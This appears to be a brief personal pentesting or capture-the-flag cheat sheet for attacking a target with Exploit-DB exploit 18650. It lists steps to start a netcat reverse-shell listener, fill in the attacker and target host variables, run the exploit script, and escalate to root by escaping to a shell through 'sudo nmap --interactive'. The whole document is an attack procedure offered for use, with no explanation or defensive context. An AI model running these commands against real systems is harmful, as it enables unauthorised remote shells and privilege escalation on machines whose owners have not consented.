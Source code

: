 ### start listener
```
nc -lnvp <lport>
```

### open script an adjust:
```
rhost="<rhost>"
lhost="<lhost>"
lport=<lport>
extension="<extension>"
```

### exploit
```
python 18650.py
```

### escalate privilege
```
sudo nmap --interactive
!sh
```

### References
https://www.exploit-db.com/exploits/18650  

